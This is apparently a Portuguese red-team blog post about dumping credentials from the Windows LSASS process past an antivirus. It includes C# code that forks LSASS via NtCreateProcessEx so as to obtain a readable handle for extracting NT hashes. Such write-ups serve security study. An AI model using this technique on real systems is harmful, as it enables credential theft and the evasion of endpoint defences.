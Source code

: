 ```yaml
---
title: "LSASS: A reciclagem também está presente nos handles."
date: 2023-06-03 00:00:00 +0800
categories: [Windows]
tags: [Red Team]
---
```



Como sabemos, o processo do LSASS é um tesouro quando se observado pelo lado ofensivo. É neste processo que informações de logons de usuários são armazenados (como as valiosas NT hashes). Quando o assunto é dump de credenciais, um handle com permissões de `PROCESS_VM_READ` ao LSASS se torna tudo o que um atacante quer.

> `PROCESS_VM_READ¹`: permissão necessária para a leitura da memória (dump) de um processo. 
{: .prompt-info }

Contextualizando: durante meus estudos de Windows API, estive aprofundando em técnicas de dump de LSASS que normalmente um EDR/XDR não detectaria. Em um laboratório, instalei um famoso antivírus do mercado (no qual não citarei o nome) e que me rendeu bastante trabalho. Quando eu abria um handle pro LSASS e tentava interagí-lo, um erro era retornado: `STATUS_ACCESS_DENIED`.

![Desktop View](https://i.imgur.com/RBZ4JSv.png)

No código, primeiro é aberto um handle pro LSASS com o acesso `PROCESS_CREATE_PROCESS²`. Como exibido na captura de tela acima, o erro ocorria na execução da API `NtCreateProcessEx³`. Esse erro ocorre devido a privilégios insuficientes dados ao handle.

```csharp
	uint accessParentProcess = PROCESS_CREATE_PROCESS;
	uint accessChildProcess = PROCESS_QUERY_INFORMATION | PROCESS_VM_READ ;

	IntPtr hParentProcess = OpenProcess((uint)accessParentProcess, false, Convert.ToUInt32(pid)); // abrindo um handle ao LSASS com PROCESS_CREATE_PROCESS

	Console.WriteLine($"[+] Handle: {hParentProcess}");

  // clonando o processo do LSASS

	int ningning = NtCreateProcessEx(
		out IntPtr hChildProcess,
		(uint)accessChildProcess,
		IntPtr.Zero,
		hParentProcess,
		0,
		IntPtr.Zero,
		IntPtr.Zero,
		IntPtr.Zero,
		false
	);

	if (ningning == 0)
	{
		uint hChildPid = GetProcessId(hChildProcess);

		Console.WriteLine($"[^] Forked Handle: {hChildProcess}");
		Console.WriteLine($"[^] Forked PID: {hChildPid}");
	}
```

> `PROCESS_CREATE_PROCESS²`: permissão necessária criar uma fork (clone) de um processo alvo.
> `NtCreateProcessEx³`: API utilizada para criar um fork do processo (LSASS). 
{: .prompt-info }

![Desktop View](https://i.imgur.com/RUkXM62.png)
